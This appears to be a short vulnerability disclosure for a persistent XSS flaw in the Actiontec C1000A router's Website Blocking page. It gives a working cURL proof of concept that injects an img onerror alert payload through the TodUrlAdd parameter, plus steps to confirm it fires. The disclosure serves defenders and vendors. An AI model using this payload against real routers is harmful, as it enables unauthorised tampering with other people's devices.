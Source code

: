 # Persistent XSS in the Actiontec C1000A router Website Blocking page
**Vendor**: Actiontec

**Product**: C1000A

**Firmware Version**: CAC004-31.30L.95


## Verification:
1. Make an HTTP request to the router where 192.168.0.1 is the router's local IP address, for example with this cURL POC:
```
curl "http://192.168.0.1/urlfilter.cmd?action=set_url&TodUrlAdd=<img+src=x+onerror=\"alert(String.fromCharCode(88,83,83))\"/>&Lan_IP=192.168.0.2&listtype=Exclude" -X POST
```
(The HTML payload is passed in the `TodUrlAdd` parameter. Even though this is a POST request, parameters are still passed in the URL.)

2. Open up the page Advanced Setup -> Website Blocking (/advancedsetup_websiteblocking.html) to verify that the XSS is there. It should show an alert box with the text "XSS".
